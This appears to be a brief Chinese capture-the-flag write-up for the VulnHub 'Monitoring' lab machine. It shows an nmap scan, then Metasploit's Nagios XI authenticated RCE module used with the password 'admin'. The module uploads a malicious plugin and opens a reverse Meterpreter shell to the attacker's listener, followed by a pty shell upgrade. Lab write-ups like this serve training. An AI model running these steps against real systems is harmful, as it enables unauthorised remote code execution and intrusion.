

# Monitoring

> https://download.vulnhub.com/monitoring/Monitoring.ova

靶场IP：`192.168.2.133`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p1-65535 -sV 192.168.2.133                                                                                                                                                                                                   
Starting Nmap 7.91 ( https://nmap.org ) at 2022-09-05 07:41 EDT
Nmap scan report for 192.168.2.133
Host is up (0.00062s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp       Postfix smtpd
80/tcp   open  http       Apache httpd 2.4.18 ((Ubuntu))
389/tcp  open  ldap       OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   Apache httpd 2.4.18 ((Ubuntu))
5667/tcp open  tcpwrapped
MAC Address: 00:0C:29:43:DC:A3 (VMware)
Service Info: Host:  ubuntu; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.68 seconds
                                                             
```

浏览器访问80端口


跟随链接访问管理后台


我们搜索 Nagios XI 的漏洞利用，我们发现了一个 authenticated_rce 漏洞利用。让我们加载 msfconsole 并加载漏洞 `nagios_xi_authenticated_rce`。

```
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > set rhosts 192.168.2.133
rhosts => 192.168.2.133
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > set lhost 192.168.2.129
lhost => 192.168.2.129
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > set password admin
password => admin
msf6 exploit(linux/http/nagios_xi_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.2.129:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.6.0
[+] The target appears to be vulnerable.
[*] Uploading malicious 'check_ping' plugin...
[*] Command Stager progress - 100.00% done (897/897 bytes)
[+] Successfully uploaded plugin.
[*] Executing plugin...
[*] Waiting up to 300 seconds for the plugin to request the final payload...
[*] Sending stage (3020772 bytes) to 192.168.2.133
[*] Meterpreter session 1 opened (192.168.2.129:4444 -> 192.168.2.133:40318) at 2022-09-05 07:54:37 -0400
[*] Deleting malicious 'check_ping' plugin...
[+] Plugin deleted.

```

```
shell
python -c 'import pty;pty.spawn("/bin/bash")'
cd /root
```

